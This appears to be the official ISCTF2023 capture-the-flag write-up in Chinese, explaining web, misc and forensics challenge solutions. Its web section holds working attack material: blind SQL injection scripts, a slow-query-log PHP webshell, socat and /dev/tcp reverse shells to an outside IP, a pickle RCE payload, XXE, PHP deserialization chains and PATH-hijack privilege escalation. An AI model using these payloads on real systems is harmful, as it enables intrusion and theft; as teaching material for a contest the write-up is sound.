# ISCTF2023官方wp

# web



## deep_website

****

出题人：guoql

取材自某次真实渗透，不说两句话，开发与安全缺一不可。

信息收集：

存在SQL注入漏洞，禁用了双写绕过，大小写绕过等常见绕过形式

SQL过滤了常见的SQL语句如空格，\>,\<,=等符号

通过抓包可以绕过验证码，只要不访问index.php，不刷新验证码，就可以使用同一个验证码。

可以通过异或盲注和benchmark函数进行盲注。

```python
import requests
import time

head = '''Host: 192.168.174.133:14124
Connection: keep-alive
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.174.133:14124
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.174.133:14124/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=7363df76975485eaae419dea46746cb7'''.split("\n")

verifyCode = "tfMs"

url = "http://192.168.174.133:14124/checkLogin.php"

delay = 1.0


headers = {}

for k in head:
	temp = k.split(": ")
	i=temp[0]
	j="".join(temp[1:])
	headers[i] = j

if headers.get("") is not None:
	headers.pop("")


def fetchSQL(sql, pos):
	for i in range(20, 129):
		payload = f"1')/*!UNION*//**//*!SELECT*/(CASE/**/WHEN/**/ASCII(mid(concat(({sql})),{pos},1))^{i}/**/THEN/**/0/**/ELSE/**/BENCHMARK(8000000,md5(1))/**/END)#"
		data = {"user":payload,"password":"1","verifyCode":verifyCode}
		start = time.time()
		connect = requests.post(url,headers=headers,data=data)
		# print(connect.text)
		end = time.time()
		if end - start > delay:
			return i
	return None

def crackSQL(sql):
	strs = ""
	for pos in range(1,100):
		temp = fetchSQL(sql, pos)
		if temp is None:
			break
		print(chr(temp),end="")
		strs += chr(temp)
	print("")
	return strs

def main():
	sql1 = "database()"
	sql2 = "/*!SELECT*//**/group_concat(schema_name)/**/from/**/information_schema.schemata"
	sql3 = "/*!SELECT*//**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'secret'"
	sql4 = "/*!SELECT*//**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'path'"
	sql5 = "/*!SELECT*//**/group_concat(filename)/**/from/**/secret.path"
	sql6 = "/*!SELECT*//**/group_concat(filepath)/**/from/**/secret.path"
	crackSQL(sql1)#手动切换sql

main()

```

发现两个路径

flagggggg__wher_e_14_F5MSsYteUvm21W9w.txt,Mysql_connect_shell.php

```
flag is in the root directory and has root privileges

```

访问第一个，得到一句话

flag以root权限在根目录

访问MySQL那个路径

```php
<?php
require_once "config.php";

if(isset($_POST["sql"])){
    $sql = trim($_POST["sql"]);
    var_dump(fetchOne($sql));
}
else{
    highlight_file(__FILE__);
}

?>

```

发现是执行SQL的后端

sql终端为最高权限，secure_file_priv权限没开启，尝试慢日志注入

```mysql
set global slow_query_log=1;
SET GLOBAL slow_query_log_file='/var/www/html/shell.php';
select '<?php eval($_GET[a])?>' or SLEEP(11);

```

分别执行上面3句话

即可访问shell.php

此时获得一句话木马

用一句话木马执行系统命令：apk list，发现有socat

使用socat反弹shell

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ip:port

```

反弹shell后提权：

使用sudo -l 查看，发现可以无密码执行/bin/menu

下载下来用ida或者用strings查看menu文件，发现里边的system用的是环境变量，没有用绝对路径

我们修改环境变量中ifconfig的值

```bash
cp /bin/bash /tmp/ifconfig
chmod 777 /tmp/ifconfig
export PATH=/tmp:$PATH

```

此后执行

```bash
sudo menu
```

输入2，获得shell，whoami权限为root

然后用root权限cat /flag.txt即可


## easy_website

****

出题人：guoql

题目删除了空格，过滤了union 和 select、password、information等

可以使用写绕过：uniunionon、selselectect、infoorrmation_schema来绕过限制，空格可使用 /\*\*/ 或 %09绕过

使用updatexml 基于报错将结果带出

```mysql
'oorr/**/updatexml(1,concat(0x7e,(selselectect/**/(schema_name)/**/from/**/infoorrmation_schema.schemata/**/limit/**/5,1),0x7e),1)#

```

爆库名为users

得知库名后猜解表名

```mysql
'oorr/**/updatexml(1,concat(0x7e,(selselectect/**/group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema='users'),0x7e),1)#

```

爆表名为users

得知表名后猜解列名

```mysql
'oorr/**/updatexml(1,concat(0x7e,(selselectect/**/group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_schema='users'/**/aandnd/**/table_name='FLAG_TABLE'),0x7e),1)#

```

爆列名为password

得知列名后查询flag

```mysql
'oorr/**/updatexml(1,concat(0x7e,(selselectect/**/(passwoorrd)/**/from/**/users.users/**/limit/**/2,1),0x7e),1)#

```

爆出flag


## 恐怖G7人

****

出题人：guoql



发现set cookie

将cookie base64解码

发现为pickle利用



构造shell为



构造pickle链为



服务器启动监听



修改cookies值



刷新界面



getshell


## 1z_Ssql

****

出题人：bthcls

robots.txt有hint



访问/here_is_a_sercet.php



过滤的黑名单被加密了，在首页能看见加载了一个sm4.js，看得出来是一个解密脚本



替换payload为加密的黑名单字符串，node decrypt.js运行解密脚本



得到黑名单过滤的字符串

在登录框测试注入,输入union提示illegal words非法字符,根据过滤来绕过





hint是假的，到这里可以判断是布尔盲注，根据过滤的字符串，数据库名和长度都可以直接跑，但是到表就 不行了，需要根据给的附件来爆破，下面是脚本

```python
import requests
import string
import time
url='http://192.168.31.60:8021'
i=0
db_name_len=0
print('[+]正在猜解数据库长度......')
while True:
	payload = "'or(length(database())<>{})#".format(i)
	params={
		"username":"{}".format(payload),
		"password":"1",
		"submit":"登录"
}
res=requests.post(url=url,data=params)
if '用户名或密码错误' in res.text:
	db_name_len=i
	print ('数据库长度为:'+str(db_name_len))
	break
if i==30:
	print('error!')
	break
i+=1
print("[+]正在猜解数据库名字......")
db_name=''
for i in range(1,db_name_len+1):
	for k in range(0,128):
		payload = "'or(ord(substr(reverse(substr(database() from {})) from {}))<>
{})#".format(i,7-i,k)
		params={
			"username":"{}".format(payload),
			"password":"1",
			"submit":"登录"
}
		res=requests.post(url=url,data=params)
		if '用户名或密码错误' in res.text:
			db_name+=chr(k)
			break
print("数据库为: %s"%db_name)
#爆破表名和字段名
print("[+]正在猜解数据表名字和字段名字......")
true_table_name=''
true_column_name=''
with open('table_name.txt','r',encoding='utf8') as f1:
	with open('cloumn_name.txt','r',encoding='utf8') as f2:
		for table_name in f1.readlines():
			table_name = table_name.strip()
			for column_name in f2.readlines():
				column_name = column_name.strip()
				payload = "'or(length((select(group_concat({}))from({}.
{})))>0)#".format(column_name,db_name,table_name)
				params={
				"username":"{}".format(payload),
				"password":"1",
				"submit":"登录"
}
				res=requests.post(url=url,data=params)
				if 'smart' in res.text:
					true_table_name = table_name
					true_column_name = column_name
					print("数据表和字段名为: {}和
{}".format(true_table_name,true_column_name))
				continue
i=0
column_len=0
print('[+]正在猜解字段长度......')
while True:
	payload = "'or(length((select(group_concat(password))from(bthcls.users)))<>
{})#".format(i)
	params={
		"username":"{}".format(payload),
		"password":"1",
		"submit":"登录"
}
	res=requests.post(url=url,data=params)
	if '用户名或密码错误' in res.text:
		column_len=i
		print ('字段长度为:'+str(column_len))
		break
	if i==30:
		print('error!')
		break
i+=1
print("[+]正在猜字段值......")
column_value=''
for i in range(1,column_len+1):
	for k in range(0,128):
	payload =
"'or(ord(substr(reverse(substr((select(group_concat(password))from(bthcls.users))fro
m({})))from({})))<>{})#".format(i,column_len+1-i,k)
	params={
		"username":"{}".format(payload),
		"password":"1",
		"submit":"登录"
}
	res=requests.post(url=url,data=params)
	if '用户名或密码错误' in res.text:
		column_value+=chr(k)
		break
得到登录密码，登录得到flag，用户名当然是admin啦
print("数据库为: %s"%column_value
```



得到登录密码，登录得到flag，用户名当然是admin啦




## double_pickle

****

出题人：Jay17



两个四位路由，爆破一下就是**/hint**和**/calc**

**/hint**路由回显如下：相当于给了源码，过滤替换很多，但是都是单次，可以双写绕过。



构造exp：(linux下执行)

```python
import pickle
import os
import base64

class Jay17(): 
    def __reduce__(self):        
        return(os.system,('bash -c "bash -i >& /dev/tcp/120.46.41.173/9023 0>&1"',))   #反弹shell。因为这里无回显且无写入权限。

a= Jay17()
payload=pickle.dumps(a).replace(b'os', b'ooss').replace(b'reduce', b'redreduceuce').replace(b'system', b'syssystemtem').replace(b'env', b'enenvv').replace(b'flag', b'flflagag')   #双写绕过

payload=base64.b64encode(payload)    #base编码byte类
print(payload)
```

生成结果：（记得URL编码后再发送）

```
gASVUAAAAAAAAACMBXBvb3NzaXiUjAZzeXNzeXN0ZW10ZW2Uk5SMNWJhc2ggLWMgImJhc2ggLWkgPiYgL2Rldi90Y3AvMTIwLjQ2LjQxLjE3My85MDIzIDA+JjEilIWUUpQu

```






## ez_ini

****

出题人：Jay17

WP：

前面对文件上传过滤了哪些的测试步骤不做了。目前可上传**.user.ini**，但是过滤了**\<**。



包含日志，这里用**auto_append_file=/var/log/nginx/access.log**。

步骤：

1、上传.user.ini配置文件，内容为auto_append_file=/var/log/nginx/access.log （日志文件路径） //自动包含日志文件

2、同目录下php文件中打开hackbar，UA头进行写马如“\<?php eval(\$_POST[1]);?\>”，发送。

3、POST传1=什么什么，进行RCE



上传成功后在upload.php处getshell就行了。

UA头写马\<?php eval(\$_POST[1]);?\>


POST传参执行命令。




## fuzz!

***

出题人：Jay17

直接给了源码：

```php
<?php
/*
Read /flaggggggg.txt
Hint: 你需要学会fuzz，看着键盘一个一个对是没有灵魂的
知识补充：curl命令也可以用来读取文件哦，如curl file:///etc/passwd
*/
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
highlight_file(__FILE__);
$file = 'file:///etc/passwd';
if(preg_match("/\`|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\+|\=|\\\\|\'|\"|\;|\<|\>|\,|\?|jay/i", $_GET['file'])){
    die('你需要fuzz一下哦~');
}
if(!preg_match("/fi|le|flag/i", $_GET['file'])){
    $file = $_GET['file'];
}
system('curl '.$file);

```

curl命令参数用花括号绕过过滤。具体参考asisctf。题目会引导选手进行fuzz，会fuzz就会找出没过滤的花括号，加上一点意识和尝试就能解除本题。

首先拿burp进行单个字符的fuzz。以便于更快速找到未被过滤的字符。（fuzz只出现两次就是没被过滤）


关键是没过滤\`{}\`、\`[]\`、\`-\`。由此我们可以得到以下两个paylaod：

```
?file=f{i}l{e}:///fl{a}ggggggg.txt

或者正则匹配绕过

?file=f[i-i]l[e-e]:///fl[a-a]ggggggg.txt

```




## where_is_the_flag

****

出题人：Jay17

```php
POST:
1=system('tac flag.php');
1=system('tac /flag2');
1=system('env');

```




## webinclude

***

出题人：mikannse

访问得到需要参数，存在index.bak文件，下载查看。存在两个函数，并且利用这两个函数将参数名进行加密，加密后的hash值为dxdydxdudxdtdxeadxekdxea

编写解密脚本：

```python
def textToarray(hash):
    array =[]
    for c in hash:
        code = ord(c)
        array.append(code-97)
    return array


def arrayTostring(array):
    string=''
    for i in range(0,len(array),2) :
        string+= chr(array[i]*26+array[i+1])
    return string

if __name__ == '__main__':
    print (arrayTostring((textToarray((arrayTostring((textToarray(hash))))))))

```

解得参数名为mihoyo,而且存在文件包含漏洞，并且当前目录存在一个flag.php,利用伪协议读取得到flag

```
?mihoyo=pHp://FilTer/convert.base64-encode/resource=flag.php

```


## warf

***

出题人：Jay17

开局，看似铁waf，其实漏洞百出，有很多绕过方法。



```php
POST:
code=system('strings /f*')
code=system('paste /f*')
code=system('ca\t /f*')

```


## ez_php

***

出题人：fmyyy

代码审计+变量覆盖+XXE

register.php处存在变量覆盖



审计代码，发现注册用户的方式是将用户信息以xml的形式存储。

在登陆处解析xml



存在xxe，例如利用变量覆盖写入

```html
<!DOCTYPE test [
        <!ENTITY xxe SYSTEM "file:///flag">
        ]>
<userinfo>
<user>
    <username>&xxe;</username>
    <password>123</password>
</user>
</userinfo>

```

发包

```
/register.php?username=aaa&password=aaa&user_xml_format=%3c%21%44%4f%43%54%59%50%45%20%74%65%73%74%20%5b%0a%20%20%20%20%20%20%20%20%3c%21%45%4e%54%49%54%59%20%78%78%65%20%53%59%53%54%45%4d%20%22%66%69%6c%65%3a%2f%2f%2f%66%6c%61%67%22%3e%0a%20%20%20%20%20%20%20%20%5d%3e%0a%3c%75%73%65%72%69%6e%66%6f%3e%0a%3c%75%73%65%72%3e%0a%20%20%20%20%3c%75%73%65%72%6e%61%6d%65%3e%26%78%78%65%3b%3c%2f%75%73%65%72%6e%61%6d%65%3e%0a%20%20%20%20%3c%70%61%73%73%77%6f%72%64%3e%31%32%33%3c%2f%70%61%73%73%77%6f%72%64%3e%0a%3c%2f%75%73%65%72%3e%0a%3c%2f%75%73%65%72%69%6e%66%6f%3e

```

这样就能写入



如何回显呢？

注意登陆处

如果密码错误，会die出用户名，所以xxe的payload需要把username构造为读取的内容，这时候只需要一个错误的密码就行

```bash
/login.php?username=aaa&password=wrong_password

```




## 绕进你的心里

***

出题人:fpclose

源码：

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);
require 'flag.php';
$str = (String)$_POST['pan_gu'];
$num = $_GET['zhurong'];
$lida1 = $_GET['hongmeng'];
$lida2 = $_GET['shennong'];
if($lida1 !== $lida2 && md5($lida1) === md5($lida2)){
    echo "md5绕过了!";
    if(preg_match("/[0-9]/", $num)){
        die('你干嘛?哎哟!');
    }
    elseif(intval($num)){
        if(preg_match('/.+?ISCTF/is', $str)){
            die("再想想!");
        }
        if(stripos($str, '2023ISCTF') === false){
            die("就差一点点啦!");
        }
        echo $flag;
    }
}
?> 

```

分析：题目要求我们传入4个参数，满足条件即可获得flag。

源码接入两个get型参数（hongmeng、shennong）分别赋值给 \$lida1 和 \$lida2 。然后使用 if 条件语句进行判断：

### 第一层：

如果 \$lida1 和 \$lida2 的值 **强不等于**并且两者的**md5加密后的值强相等**，则代码继续往下执行，也就是我们传入的参数必须满足以下条件。

这里可以使用**数组**进行绕过。

### 第二层：

在这里，intval() 函数会将 \$num 给转换为数字，但如果字符中没有找到数字，那么就被视为不可转换的字符，即返回 false。

也就是说，我们传入的字符串内必须含有一个数字。

这里同样也可以使用数组绕过，intval() 函数处理非空数组时会返回整数1。

### 第三层：

判断 str 是否包含 ‘2023ISCTF’，如果不包含，则输出相应提示，否则输出 \$flag。但是如果我们的字符换中包含有 2023ISCTF 那么就会与正则函数相冲突。这里使用回溯绕过跳过正则的限制。

exp如下：

```python
//构造exp
import requests
data={"pan[gu":"a"*(1000000)+"2023ISCTF"}
url="http://47.109.106.104:9999/?hongmeng[]=1&shennong[]=2&zhurong[]=1"
res = requests.post(data=data,url=url)
print(res.text)

```

将ip替换即可使用。 运行程序直接获得flag。


## 圣杯战争

***

出题人:fpclode

源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0);

class artifact{
    public $excalibuer;
    public $arrow;
    public function __toString(){
        echo "为Saber选择了对的武器!<br>";
        return $this->excalibuer->arrow;
    }
}

class prepare{
    public $release;
    public function __get($key){
        $functioin = $this->release;
        echo "蓄力!咖喱棒！！<br>";
        return $functioin();
    }
}
class saber{
    public $weapon;
    public function __invoke(){
        echo "胜利！<br>";
        include($this->weapon);
    }
}
class summon{
    public $Saber;
    public $Rider;

    public function __wakeup(){
        echo "开始召唤从者！<br>";
        echo $this->Saber;
    }
}

if(isset($_GET['payload'])){
    unserialize($_GET['payload']);
}
?> 

```

发现是一个php反序列化。

分析：

源码中回自动对用户传入的数据进行反序列化，则就会触发__wakeup()方法。此时，又会执行到

\$this-\>Saber 语句，从而触发 \_toString() 方法，然后又会执行到 return \$this-\>excalibuer-\>arrow; 语

句，从而触发 \_get() 方法。此时又会执行到 return \$functioin(); 语句，从而触发 \_invoke() 方法，然后

执行我们想要的 include()函数。再结合文件包含的伪协议知识，即可获得flag。

```php
<?php
class artifact{
    public $excalibuer;
    public $arrow;
}

class prepare{
    public $release;

}
class saber{
    public $weapon = "pHp://FilTer/convert.base64-encode/resource=flag.php";
}
class summon{
    public $Saber;
    public $Rider;

}
$a = new artifact();
$b = new prepare();
$c = new saber();
$d = new summon();
$b -> release = $c;
$a -> excalibuer = $b;
$d -> Saber = $a;

echo urlencode(serialize($d));
?>

```

运行即可获得payload

```
O%3A6%3A%22summon%22%3A2%3A%7Bs%3A5%3A%22Saber%22%3BO%3A8%3A%22artifact%22%3A2%3A%7Bs%3A10%3A%22excalibuer%22%3BO%3A7%3A%22prepare%22%3A1%3A%7Bs%3A7%3A%22release%22%3BO%3A5%3A%22saber%22%3A1%3A%7Bs%3A6%3A%22weapon%22%3Bs%3A52%3A%22pHp%3A%2F%2FFilTer%2Fconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7Ds%3A5%3A%22arrow%22%3BN%3B%7Ds%3A5%3A%22Rider%22%3BN%3B%7D

```

传参获得flag.php的base.64编码，解码获得flag。

# MISC



## 小猫

***

出题人：p1rry

打开图片，发现图片有异常点


尝试摩斯电码无果，

采用binwalk分析



发现第二张图片




分析第二个图没有什么答案

用stegsolve 分析




发现另一张图片


以hax方式保存

Winhex打开



另存为jpg

得道社会主义核心价值观图片


结合图片上坐标



怀疑是敲击码

公正公正公正诚信文明公正民主公正法治法治诚信民主公正民主公正和谐公正民主和谐民主和谐敬业和谐平等公正公正公正自由和谐和谐公正自由和谐富强公正公正和谐文明和谐和谐和谐敬业和谐文明和谐平等和谐自由和谐爱国公正自由和谐富强和谐文明和谐敬业和谐法治和谐公正和谐法治公正自由公正文明公正公正和谐法治和谐公正和谐公正法治友善法治

最后进行解密




## sudopy

***

出题人：mikannse

用ctf:ctf的凭证ssh连接,sudo -l发现能执行一个python脚本，并且这个脚本调用了webbrowser库

Find / -name “webbrowse.py” 2\>/dev/null，发现有读写权限

在其中添加os.system(‘/bin/bash’)，sudo执行，提权


## status

***

出题人：mikannse

用ctf:ctf的凭证ssh连接，发现一个checkgenshin二进制文件,并且有SUID

下载到本地，用IDA打开，main函数中发现用system命令执行了service指令，并且使用的是相对路径。

```bash
echo '#!/bin/bash'>service
echo '/bin/bash'>>service
export PATH=/home/ctf:$PATH
chmod +x service
./checkgenshin

```

提权成功


## spalshes

***

出题人：D0UBL3SEV3N

考点：python 散点图，二维码 spashes.txt 文件中是 base64 编码：

```
1,2.75,1,1,2.5,1,1,2.25,1,1,1.75,1,1,2,1,1,3,1,1.5,3,1,2,3,1,2,2.75,1,2,2.5,1,2,2.25,1,2,2,1,2,1.75,1,2,1.5,1,1,2.25,1,1.5,2.25,1,1,1.5,1,1.5,1.5,1,4,2.75,1,4,2.5,1,3,3,1,3.5,3,1,4,3,1,3.5,2.25,1,4,2.25,1,4,2,1,4,1.75,1,4,1.5,1,3,1.5,1,3.5,1.5,1,3,2.25,1,3,2.5,1,3,2.75,1,5,3,1,5.5,3,1,6,3,1,6,2.25,1,6,2,1,6,1.75,1,6,1.5,1,5.5,1.5,1,5,1.5,1,5,2.25,1,5.5,2.25,1,5,2.5,1,5,2.75,1,7,3,1,7.5,3,1,8,3,1,8,2.5,1,8,2,1,8,1.5,1,8,2.75,1,8,2.25,1,8,1.75,1,9,3,1,9.5,3,1,10,3,1,10,2.75,1,10,2.5,1,10,2.25,1,9.5,2.25,1,9,2.25,1,9,1.5,1,9.5,1.5,1,10,1.5,1,10,2,1,10,1.75,1,11.5,3,1,12,3,1,11,3,1,12,2.25,1,12,2,1,12,1.75,1,12,1.5,1,11.5,1.5,1,11,1.5,1,11,1.75,1,11,2,1,11,2.25,1,11,2.5,1,11,2.75,1,11.5,2.25,1

```

其实这个不难发现是散点图。题目名称也给了提示，spalshes 中文意思是散点的意思，仔细观察 不难发现是 3 个一组，对应了 xyz 三个坐标，也就是说这是一个 xyz 的散点图 python 画散点图：

```python
import matplotlib.pyplot as plt
lis = [1,2.75,1,1,2.5,1,1,2.25,1,1,1.75,1,1,2,1,1,3,1,1.5,3,1,2,3,1,2,2.75,1,2,2.5,1,2,2.25,1,2,2,1,2,1.75,1,2,1.5,1,1,2.25,1,1.5,2.25,1,1,1.5,1,1.5,1.5,1,4,2.75,1,4,2.5,1,3,3,1,3.5,3,1,4,3,1,3.5,2.25,1,4,2.25,1,4,2,1,4,1.75,1,4,1.5,1,3,1.5,1,3.5,1.5,1,3,2.25,1,3,2.5,1,3,2.75,1,5,3,1,5.5,3,1,6,3,1,6,2.25,1,6,2,1,6,1.75,1,6,1.5,1,5.5,1.5,1,5,1.5,1,5,2.25,1,5.5,2.25,1,5,2.5,1,5,2.75,1,7,3,1,7.5,3,1,8,3,1,8,2.5,1,8,2,1,8,1.5,1,8,2.75,1,8,2.25,1,8,1.75,1,9,3,1,9.5,3,1,10,3,1,10,2.75,1,10,2.5,1,10,2.25,1,9.5,2.25,1,9,2.25,1,9,1.5,1,9.5,1.5,1,10,1.5,1,10,2,1,10,1.75,1,11.5,3,1,12,3,1,11,3,1,12,2.25,1,12,2,1,12,1.75,1,12,1.5,1,11.5,1.5,1,11,1.5,1,11,1.75,1,11,2,1,11,2.25,1,11,2.5,1,11,2.75,1,11.5,2.25,1]
x = lis[0::3]
y = lis[1::3]
z = lis[2::3]
fig = plt.figure()
ax = plt.figure().add_subplot(111, projection = '3d')
ax.set_title('Spalshes')
ax.set_xlabel('X Label')
ax.set_ylabel('Y Label')
ax.set_zlabel('Z Label')
ax.scatter(x,y,z,c = 'r',marker = '.')
plt.legend('x1')
plt.show()

```

运行出来是这样：

调整角度可以看到数字：895736，这就是那个加密的 png 图片的密码。这题主要考点就是画 散点图。如果有人直接爆破我那个压缩包密码的话，我也挺无语的。（因为可以发现是6位数字）接着往下，图片是个二维 码，扫描二维码或者在线网站识别也可以。拿到 flag



```
ISCTF{8374-su23-9s7e-237s-js65-55sg}
```


## 一心不可二用

***

出题人:f0re5ee

打开安装包搜索flag，搜到flag.zip(resource文件夹里面慢慢找也可以找到)，根据压缩包注释的报错,发现报错也异常，根据unexpected EOF while parsing，发现这里应该是SyntaxError而不是TabError

密码为SyntaxError，解开即得flag


## DISK

***

出题人：mumuzi

winhex打开磁盘，找到\$Extend---\$UsnJrnl---\$J

导出，然后使用NTFS Log Tracker（当然这里内容很少可以手动分析不需要这个也可以的）

加载\$J文件，然后生成db文件，导出csv

能够发现有很多修改前和修改后的内容

这里修改前的数字.txt如下：

[1230193492,1182487903,1918846768,811884366,1413895007,1298230881,1734701693]

```python
from libnum import n2s
s = [1230193492,1182487903,1918846768,811884366,1413895007,1298230881,1734701693]
print(''.join(n2s(i).decode() for i in s))

```


## ezUSB

***

出题人：mumuzi

<https://github.com/Mumuzi7179/UsbKeyboard_Mouse_Hacker_Gui>

使用工具链接里面的工具，选择usbhid和Bluetooth分别拿出两段数据，其中usbhid的数据是小写，因为当时在Bluetooth的时候是大写，按了cap之后是小写

再维吉尼亚即可


## PNG的基本食用

***

出题人：mumuzi

part1:修改图片高度（例如强行修改高度为任意高度、计算CRC）

part2:LSB，stegsolve直接勾选R0G0B0即可

part3:文件尾，010或winhex直接查看能够看到part3.txt内容


## Ez_misc

***

出题人：Ten

通过ppt找到压缩包的密码，对压缩包进行解密，然后修复文件结构，最后扫描二维码得到flag


## 镜流

***

出题人：sxla

压缩包是6位数字密码，需要使用ARCHPR进行6位数字爆破，密码是306256

压缩包解压出来是一张图片和一个提示文件，缩小10倍的意思是，图片中的像素点的间距是10，按照这个原理可以提取像素点合成另一张图片。

下面提供python脚本：

```python
from PIL import Image
#该脚本的目的是将1new.png中隐藏的图片提取出来
im1 = Image.open("1new.png")

width = im1.width//10
height = im1.height//10

new = Image.new("RGB",(width,height))
for x in range(width):
    for y in range(height):
        w1 = im1.getpixel((x*10,y*10))
        new.putpixel((x,y),w1)
new.show()
new.save("flag.png")

```

提取的图片使用zsteg可以提取出有flag的图片。


## 小白小黑

***

出题人：Qjzhalx

看题目描述小白说：zo23n里面的z就是zero，o就是one，n就是nine。同理小黑说的也这样。最后用脚本将01239换成白色，45678为黑色，就是一个二维码。扫一下就是flag


## stream

***

出题人：guoql

盲注SQL，如果成功的话返回包总长度是1072手搓一下后面ASCII的参数

```
73 83 67 84 70 123 48 111 112 115 33 45 89 48 117 45 70 49 110 100 45 84 104 51 45 83 51 99 114 101 116 45 102 108 97 103 33 33 33 125

```


## 杰伦可是流量明星

***

出题人:fpclose

下载附件，解压，发现一个 login.mp3，是一个音频文件，并且可以播放，但是却不是莫斯密码。使用 16进制工具打开发现：


开头是一个rar的压缩包，将音频文件修改为：login.rar，解压发现文件中有一个流量文件 login.pcapng 。使用工具打开，发现有一个http流量包：



右键，追踪流的TCP流



打开发现flag：



%7B是‘{’，%7D是‘}’，将中间的内容复制下来，放入isctf{},提交即可。


## 小蓝鲨的秘密

***

出题人：D0UBL3SEV3N

考点：伪加密，png 高度,aes

压缩包载入 010，CTRL+f 搜索 50 4B 01 02 ，找到加密文件的全局标志位，将两个 09 都改成 00 如下：



改成 00 解除伪加密，然后 txt 文档打开看题目描述



得到一个字符串和一张蓝鲨图片。这个字符串看格式疑似 AES 加密。那么图片里可能隐藏着密 码。修改 png 图片的高度，将 10 修改为 83 得到密码




密码为：15CTF2023

AES 在线解密： <https://tool.oschina.net/encrypt/>



得到 flag：

```
ISCTF{2832-3910-232-3742-7320}
```


## easy_zip

***

出题人：f00001111

考点：zip密码爆破

入门题，6位纯数字密码，使用软件或脚本爆破。


## Ez_crc

***

出题人：Dr34m

<https://github.com/Dr34nn/CRC_Cracker>

```python
dictionary = {'1': '壹', '2': '贰', '3': '叁', '4': '肆', '5': '伍', '6': '陆', '7': '柒', '8': '捌', '9': '玖','0': '零', 'a': '啊', 'b': '玻', 'c': '雌', 'd': '得', 'e': '鹅', 'f': '佛', 'g': '哥', 'h': '喝', 'i': '爱', 'j': '基','k': '科','l': '勒', 'm': '摸', 'n': '讷', 'o': '喔', 'p': '坡', 'q': '欺', 'r': '日', 's': '思', 't': '特','u': '乌','v': '迂','w': '巫', 'x': '希', 'y': '歪', 'z': '资'}
big = '大写的'
flag='output'
flipped_dict = {v: k for k, v in dictionary.items()}
i=0
while i < len(flag):
    if flag[i] in flipped_dict:
        print(flipped_dict[flag[i]],end='')
    else:
        i += 3
        print(flipped_dict[flag[i]].upper(),end='')
    i += 1

```

另一种写脚本爆破的方法




## 小蓝鲨的问卷

***


填写即可


## MCSOG-猫猫

***

出题人：Dr34m

在群中发送flag在哪，然后看一下是零宽，再看一下类型，再丢到网站里就秒了








## Wanderful New World

***

出题人：guoql

拿到我的世界存档直接开游戏，搜图后根据提示发现有一排方块，猜测为摩斯码进行替换成功得到一半 flag




```
.. ... -.-. - ..-. ----.-- .-- . .-.. -.-. --- -- . ..--. - ---
```

另一半再搜寻后发现日志文件里存在特殊字符像 ASCII 码，转换后得到一串base64 再转换得到另一半 flag，两个一拼接得到完整 flag


```
X01DX1dPUkxEX010X01TQ1RGfQ==
```


## 蓝鲨的福利

***

下载附件，没有给出文件的后缀。查看16进制。发现是缺失了png的文件头，补齐文件头，添加文件后缀 .png 成功打开图片，直接读取flag即可。


## 签到题

***

把两张图片拼在一起，得到“蓝鲨信息”的公众号二维码，扫描回复关键词即可


## 张万森，下雪了

***

出题人：D0UBL3SEV3N

考点：SNOW 隐写，字典爆破，base64 多次编码

解题步骤： 下载附件后得到一个压缩包和一个字典文件 dic.txt。压缩包里 面的 txt 文件需要密码，dic.txt 爆破压缩包密码。使用 ARCHPR.exe 字典文件破解密码。

得到压缩包里面的文件密码：blueSHARK666

tip.txt 里的密文是经过 base64 进行 17次编码后得到的，对这 段密文进行 17 次 base64 解密，脚本如下：

```python
import base64
Sstr=''
with open('tip.txt', 'r', encoding='UTF-8') as f: #打开 tip.txt 文件
 Sstr="".join(f.readlines()).encode('utf-8')
src=Sstr
while True: 
 try:
 src=Sstr
 Sstr=base64.b64decode(Sstr) #解码
 str(Sstr,'utf-8')
 continue
 except:
 pass
 break
with open('result.txt','w', encoding='utf-8') as file: #写入明文
 file.write(str(src,'utf-8'))
print('ok')

```

得到一些无法解密的字符，使用词频统计：

```python
alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890!@#$%^&*()_+-={}[]"
# filename = input('请输入目标文本:')
data = input()
result = {d:0 for d in alphabet}#生成字典


def sort_by_value(d):
    items = d.items()
    backitems = [[v[1],v[0]] for v in items]
    backitems.sort(reverse=True)
    print(backitems,'\n\n') #按出现次数从大到小输出对应次数和字符
    return [ backitems[i][1] for i in range(0,len(backitems))]#按出现次数从大到小返回字符

for d in data:
    for alpha in alphabet:
        if d == alpha:
            result[alpha] = result[alpha] + 1 #字符出现一次加一

print(''.join(sort_by_value(result))) #连接成字符串


```

统计完成之后：



查看 flag.txt，可以看到有信息被隐藏起来了，不难发现这是 SNOW 隐写，这里的 flag 是迷惑人的，真正的 flag 藏匿在 flag.txt 文件中。解密的密文就是刚刚得到的 ISCTFZ023。

解密如下：

```
SNOW.EXE -C -p "ISCTFZ023" flag.txt
```

这样才能得到真正的flag




## 你说爱我?尊嘟假嘟?

***

出题人：D0UBL3SEV3N

考点：Ook 加密，base64

附件是个 docx 文档，打开后重复出现 “你说爱我” “尊嘟” “假嘟”。判断为 Ook 加密,将 “你说爱我”替换为“Ook.”；“尊嘟”替换为：“Ook!”；“假嘟”替换为：“Ook?”。注 意替换的时候中英文符号即可。 然后 Ook 解码：



得到一个字符串：ild3l4pXejwPcCwJsPAOq7sJczdRdTsJcCEUsP1Z

base64 解码,注意编码方式不同，要切换一下：



```
ISCTF{9832h-s92hw-23u7w-2j8s0}
```


# Crypto



## Beyond Hex, Meet Heptadecimal

***

出题人：mumuzi

